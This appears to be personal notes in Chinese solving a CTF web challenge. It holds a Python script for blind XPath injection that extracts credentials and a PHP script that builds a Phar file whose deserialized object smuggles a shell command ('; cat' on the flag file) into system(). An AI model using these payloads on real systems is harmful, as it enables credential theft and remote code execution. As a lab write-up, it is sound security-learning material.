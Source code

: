 tags:: CTF/Xpath, CTF/PHP/Phar

- > 复现
- # 思路
	- 使用[xpath注入]([[CTFWEB/XPATH]])得到账号密码，登陆
	- F12看到源代码泄漏
	- 使用[phar POP]([[CTFWEB/PHP/Phar]])实现RCE
- # Xpath注入
	- 脚本
		- ```python
		  url = "http://f3b9594d-6bf5-47bb-a0e4-e62c761263ac.node4.buuoj.cn:81/index.php"
		  
		  # payload = "114514' or substring(name(/*),{},1)='{}' or '" # account
		  # payload = "114514' or substring(name(/accounts/*),{},1)='{}' or '" # user
		  # payload = "114514' or substring(name(/accounts/user/*[position()=1]),{},1)='{}' or '" # username
		  # payload = "114514' or substring(name(/accounts/user/*[position()=2]),{},1)='{}' or '" # password
		  payload = "114514' or substring(/accounts/user/password,{},1)='{}' or '" # 
		  
		  def submit(payload):
		      r = base_post(url, data = {
		          "username": payload,
		          "password": "123",
		          "submit": "114514"
		      })
		  
		      _ = base_get(url)
		      return r
		  
		  def get_by_payload(payload):
		  
		      known = ""
		      while True:
		          visited = set()
		          for c in itertools.chain(string.digits, string.ascii_lowercase, string.printable):
		              if c == "'" or c in visited:
		                  continue
		              visited.add(c)
		              r = submit(payload.format(str(len(known) + 1), c))
		              if "登录成功" in r.text:
		                  known += c
		                  print(known)
		                  break
		          else:
		              print("> break")
		              break
		      return known
		  
		  # first_node = get_by_payload(payload)
		  # submit("114514' or count(/accounts/user/*)=2 or '").text
		  get_by_payload(payload)
		  # 密码：15035371139
		  ```
	- 拿到[somd5](https://www.somd5.com/)破解密码md5即可
- # Phar POP
	- ```php
	  <?php
	  class FILE{
	      public $filename;
	      public $lasttime;
	      public $size;
	      public function __construct($filename){
	          if (preg_match("/\//i", $filename)){
	              // throw new Error("hacker!");
	          }
	          $num = substr_count($filename, ".");
	          if ($num != 1){
	              // throw new Error("hacker!");
	          }
	          if (!is_file($filename)){
	              // throw new Error("???");
	          }
	          $this->filename = $filename;
	          $this->size = filesize($filename);
	          $this->lasttime = filemtime($filename);
	      }
	      public function remove(){
	          unlink($this->filename);
	      }
	      public function show()
	      {
	          echo "Filename: ". $this->filename. "  Last Modified Time: ".$this->lasttime. "  Filesize: ".$this->size."<br>";
	      }
	      public function __destruct(){
	          system("ls -all ".$this->filename);
	      }
	  }
	  $o = new FILE("/; cat /adjaskdhnask_flag_is_here_dakjdnmsakjnfksd");
	  //打开phar文件
	  @unlink("phar.phar");
	  $phar = new Phar("phar.phar"); //生成时后缀名必须为phar
	  $phar->startBuffering();
	  $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
	  
	  //放入对象
	  $phar->setMetadata($o);
	  
	  //添加压缩的文件（test为其中的内容）
	  $phar->addFromString("test.txt", "test");
	  $phar->stopBuffering();
	  ?>
	  ```
-